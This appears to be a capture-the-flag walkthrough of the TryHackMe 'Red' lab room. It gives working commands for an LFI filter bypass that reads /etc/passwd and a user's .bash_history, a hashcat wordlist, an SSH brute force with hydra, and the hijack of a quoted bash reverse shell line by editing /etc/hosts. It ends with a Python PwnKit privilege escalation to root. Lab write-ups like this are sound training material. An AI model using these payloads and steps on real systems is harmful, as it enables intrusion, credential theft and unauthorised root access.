# **TryHackMe: Red – Room Walkthrough**

This room covers exploiting Local File Inclusion (LFI) via the `file://` protocol, analyzing `.bash_history` to reconstruct a target password list, hijacking a local cronjob/process by poisoning `/etc/hosts`, and leveraging a Python-based PwnKit exploit for final root access.

## **1. Scanning & Enumeration**

I started with a standard aggressive `nmap` scan to see what ports were open on the machine.

```
nmap -A -T5 -vv 10.48.133.89
```

**Open Ports:**

- **Port 22/tcp:** OpenSSH 8.2p1
- **Port 80/tcp:** Apache httpd 2.4.41

The Nmap output flagged something interesting right away on port 80:

`Requested resource was /index.php?page=home.html`

The `?page=` parameter strongly hinted at a potential Local File Inclusion (Vulnerability) vector.

## **2. Exploiting LFI & Reconstructing the Password List**



I tried standard directory traversal payloads like `../../../../etc/passwd`, but the application blocked them. However, when I switched to using the `file://` protocol wrapper, the filter bypassed cleanly:

```
http://10.48.133.89/index.php?page=file:///../../../../../../../etc/passwd
```

Reading `/etc/passwd` confirmed two regular user accounts on the machine: **red** and **blue**.



Whenever you find an LFI, it's always a good habit to check for sensitive configuration files or user history files like `.bash_history`. I targeted user `blue`'s command history:

```
http://10.48.133.89/index.php?page=file:///home/blue/.bash_history
```

Inside the leaked history file, I spotted a very specific `hashcat` command that `blue` had run in the past:

```
echo "Red rules" cd hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```



This showed they used a file named `.reminder` as a base password to generate a custom wordlist via Hashcat's `best64.rule`. I read the `.reminder` file using the LFI exploit and found the base string: `sup3r.....`.



### **Generating the Wordlist**

To replicate their exact wordlist locally on my attacker machine, I saved `sup3r.......` into a file named `pass.txt` and ran it through Hashcat with the same rules:

```
hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```



With the new custom wordlist ready, I launched `hydra` to brute-force the SSH service for user `blue`:

```
hydra -l blue -P passlist.txt 10.48.133.89 ssh
```

Hydra successfully cracked the password:

`login: blue password: sup3r_.....`



I logged in via SSH and grabbed the first flag (`flag1`) inside `blue`'s home folder.



## **3. Pivoting to User red**

Once inside as `blue`, I downloaded `linpeas.sh` to the `/tmp` directory to look for local privilege escalation vectors.



While analyzing the background processes monitored by LinPeas, a recurring background command running under user `red` (UID 1001) caught my eye:

```
CMD: UID=1001  PID=15238  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```



The user `red` was executing a reverse shell to a local domain name `redrules.thm` on port 9001. Since I had user access on the machine, I could hijack this connection by modifying the `/etc/hosts` file to map `redrules.thm` directly to my own attacker IP.

I appended my VPN IP to `/etc/hosts`:

```
echo '192.168.145.196 redrules.thm' >> /etc/hosts
```



Next, I opened a netcat listener on my terminal handler to catch the incoming connection stream:

```
nc -lvnp 9001
```

After a few seconds, the automated process kicked off again, redirecting the reverse shell execution straight to my listener. I caught the shell as `red` and successfully recovered `flag2` from `/home/red/flag2`.



## **4. Privilege Escalation to Root**

To move from `red` to absolute system ownership, I audited the filesystem to find any misconfigured binaries running with the SUID bit enabled:

```
find / -perm /4000 2>/dev/null
```

The output revealed that `/home/red/.git/pkexec` had SUID privileges.



This meant the machine was vulnerable to the well-known **PwnKit** Local Privilege Escalation flaw (CVE-2021-4034). Most public exploits for PwnKit are written in C, but the target environment lacked a compiler execution setup like `gcc`.

To step around this boundary, I found a pure Python implementation of the PwnKit exploit on GitHub that didn't require any local compilation steps.

I transferred the Python script onto the target machine, made it executable, and ran it:

```
chmod +x exploit.py
python3 exploit.py
```

The script ran perfectly, bypassed the default payload checks, and dropped me straight into a `root` environment.

```
uid=0(root) gid=1001(red) groups=1001(red)
```

I navigated to the administrator's home path and cleanly read out the final operational flag:

```
cat /root/flag3
```



Room solved! 

